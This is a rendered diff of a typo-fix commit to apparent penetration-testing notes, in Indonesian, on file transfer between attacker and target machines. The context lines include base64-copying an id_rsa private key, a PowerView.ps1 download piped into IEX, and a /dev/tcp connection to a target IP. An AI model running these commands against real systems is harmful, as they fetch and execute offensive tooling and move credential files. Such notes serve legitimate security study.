

Before and after one commit to nmwafa/nmwafa.github.io, a Markdown page: notes/file-transfer.md, 3 parts joined by grey strips. Drawn GitHub-style.

Commit message:
Fix typos in file transfer documentation

````diff
--- a/notes/file-transfer.md
+++ b/notes/file-transfer.md
@@ -1,7 +1,7 @@
 <h1 align="center">File Transfer</h1>
 <h2 align="center">Windows</h2>
 
-### Metode 1: copas dari Linux
+### Metode 1: Copy paste dari Linux
 - Cek dulu hash-nya di linux: `md5sum file`
 - Konversi ke base64: `cat file |base64 -w 0;echo`
 - Di windows: `[IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("ENCODED-BASE64"))`
@@ -160,7 +160,7 @@ Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX
 
 <h2 align="center">Linux</h2>
 
-### Metode 1: copas encode
+### Metode 1: Copy paste encode
 - Di komputer attacker
   ```
   cat id_rsa |base64 -w 0;echo
@@ -192,7 +192,7 @@ Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX
   ```
 
 ### Metode 4: download dengan bash (/dev/tcp)
-- Koneksi dh web server komputer target
+- Koneksi di web server komputer target
   ```
   exec 3<>/dev/tcp/10.10.10.32/80
   ```
````
